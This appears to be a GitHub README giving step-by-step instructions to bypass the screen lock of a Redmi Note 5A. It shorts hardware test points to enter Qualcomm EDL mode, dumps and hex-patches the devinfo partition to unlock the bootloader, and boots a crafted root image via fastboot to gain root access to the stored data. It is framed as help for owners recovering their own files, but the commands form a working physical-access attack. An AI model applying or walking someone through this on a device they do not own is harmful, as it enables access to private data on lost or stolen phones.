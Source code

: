 # Redmi Note 5A (Bypass user lock)
## Storage based Attack - using EDL Programmers

This is just a guide to anybody who has the wright (by being the owner of the data for example) to access files stored in a Redmi Note 5A (MDG6). To accomplish this task, we will be using the vulnerability described here [Storage based Attack - using EDL Programmers](https://alephsecurity.com/2018/01/22/qualcomm-edl-2/). The first tool we need was made by [Reverse Engineer Bjoern Kerler](https://github.com/bkerler/edl). The seccond tool is the specially crafted boot image made by AlepthSecurity Team, which can be found [here](https://github.com/alephsecurity/firehorse). **Basically, bootloader will be unlocked, then it will be possible to boot the specially crafted boot image with fastboot (without flashing). At the end, you might want to relock your bootloader**


## Risks
This procedure was tested on Redmi Note 5A, model MDG6, with Android 7.1.2 N2G47H, security patch 2019-08-01, with MIUI Global 11.0.3. A very small portiona will be written (devinfo partition) and for what I know/tested it's easy to recover if anything goes wrong. Besides that, it's needless to say that you are doing it at your own risk.

## Setup 
#### Debian based system
```bash
sudo apt install adb fastboot python3-dev python3-pip liblzma-dev git
sudo apt purge ModemManager

git clone https://github.com/bkerler/edl.git
cd edl
git submodule update --init --recursive
sudo cp Drivers/51-edl.rules /etc/udev/rules.d
sudo cp Drivers/50-android.rules /etc/udev/rules.d
sudo python3 -m pip install -r requirements.txt
```

## Creating EDL (Emergency Download Mode)
1. Take off the back cover
2. Disconnect the battery cable (make sure it's fully charged)
4. Connect USB Cable to the device (do not connect to the Linux Based Station yet)
5. Enter edl project you've just cloned from [bkerler](https://github.com/bkerler/edl.git) (cd edl). Type ./edl.py (make sure you have python working correctly). You should see some dots being printed in your terminal, do not connect the phone yet.
7. Test Points showned in the following image must be shortened with a tweezers for a second or two, at the same time you plug USB cable to the PC. 

![EDL](./images/redmi-note-5a-EDL-commented.png)

## Unlocking your device
1. Dump devinfo partition
```bash
./edl.py r devinfo devinfo.img
```
3. Make a copy and patch the file with an Hex Editor
```bash
cp devinfo.img devinfo-unlocked.img
wxHexEditor devinfo-unlocked.img 
```
5. Change bytes 0x10 and 0x18 from 0x00 to 0x01 (see picuture)

![EDL](./images/redmi-note-5a-EDL-unlocked-devinfo.png)

## Security bypass
1. You should be able to see a small message while leaving EDL mode meaning that your device just had been unlocked.
2. Turn it off and enter FASTBOOT MODE by pressing power + volume down.
3. While in fastboot mode do the following
```bash
fastboot boot boot-ugglite-root.img
#wait for the device to turn on
adb devices... #should be able to have root access
```

